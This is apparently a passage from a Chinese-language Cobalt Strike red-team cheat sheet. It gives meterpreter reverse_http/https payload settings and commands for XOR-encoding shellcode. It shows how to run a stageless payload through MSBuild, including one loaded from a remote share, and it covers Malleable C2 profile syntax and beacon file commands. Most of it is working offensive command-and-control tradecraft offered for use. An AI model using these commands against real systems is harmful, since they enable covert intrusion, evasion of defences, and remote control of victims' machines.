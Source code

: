 * 有效载荷：windows/meterpreter/reverse_http 或 windows/meterpreter/reverse_https
* 将LHOST和LPORT设置为信标
* 将DisablePayloadHandler设置为True
* 将PrependMigrate设置为True
* exploit -j

### 自定义有效载荷

https://ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c

```powershell
* 攻击 > 包 > 有效载荷生成器 
* 攻击 > 包 > 脚本化Web交付(S)
$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
```

## 可塑C2

托管在Github上的可塑C2配置文件列表

* Cobalt Strike - 可塑C2配置文件 https://github.com/xx0hcd/Malleable-C2-Profiles
* Cobalt Strike 可塑C2设计与参考指南 https://github.com/threatexpress/malleable-c2
* Malleable-C2-Profiles https://github.com/rsmudge/Malleable-C2-Profiles
* SourcePoint 是一个C2配置文件生成器 https://github.com/Tylous/SourcePoint

语法示例

```powershell
set useragent "SOME AGENT"; # 正确
set useragent 'SOME AGENT'; # 错误
prepend "This is an example;";

# 转义双引号
append "here is \"some\" stuff";
# 转义反斜杠
append "more \\ stuff";
# 一些特殊字符不需要转义
prepend "!@#$%^&*()";
```

使用`./c2lint`检查配置文件。

* 如果c2lint完成且没有错误，则返回结果0
* 如果c2lint完成且只有警告，则返回结果1
* 如果c2lint完成且只有错误，则返回结果2
* 如果c2lint完成且有错误和警告，则返回结果3

## 文件

```powershell
# 列出指定目录中的文件
beacon > ls <C:\Path>

# 更改到指定的工作目录
beacon > cd [目录]

# 删除文件\文件夹
beacon > rm [文件\文件夹]

# 文件复制
beacon > cp [源] [目的地]

# 从Beacon主机上的路径下载文件
```